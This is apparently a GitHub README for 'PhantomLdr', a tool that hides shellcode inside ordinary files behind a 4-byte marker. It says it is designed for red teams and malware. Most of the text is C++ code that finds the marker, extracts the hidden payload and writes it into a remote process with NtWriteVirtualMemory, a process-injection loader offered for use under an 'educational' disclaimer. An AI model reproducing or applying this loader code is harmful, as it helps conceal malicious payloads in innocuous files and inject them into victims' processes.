 # PhantomLdr

![Status](https://img.shields.io/badge/status-stable-green?style=flat-square)
![Python](https://img.shields.io/badge/python-3.x-blue?style=flat-square)

**PhantomLdr** PhantomLdr allows you to embed shellcode into files using a custom 4-byte marker. It is designed for red teams, malware, and obfuscation techniques.

> ⚠️ **Disclaimer:** This tool is for **educational and authorized security research only**. Use it in **isolated environments** or during **authorized penetration testing engagements**. The developer assumes no responsibility for misuse.

---
## ✨ Features

- Embeds arbitrary shellcode into any non-sensitive file
- Avoids tampering with sensitive/critical extensions (e.g., `.exe`, `.dll`)
- Custom 4-byte ASCII marker for locating payload in post-processing

---


## How to implement on Visual studio

```cpp
std::vector<char> extractShellcode(const char* data, size_t size, const char* marker = "Z3R0") {
	if (!marker || strlen(marker) != 4) {
		return {};
	}

	for (size_t i = 0; i < size - 8; ++i) {
		if (data[i] == marker[0] &&
			data[i + 1] == marker[1] &&
			data[i + 2] == marker[2] &&
			data[i + 3] == marker[3]) {

			uint32_t len = *(uint32_t*)&data[i + 4];

			if (i + 8 + len > size) {
				return {};
			}

			return std::vector<char>(data + i + 8, data + i + 8 + len);
		}
	}

	return {};
}

std::vector<char> buffer = extractShellcode(data, size, marker);
NtWriteVirtualMemory(pi.hProcess, remoteAddr, buffer.data(), buffer.size(), NULL);
```
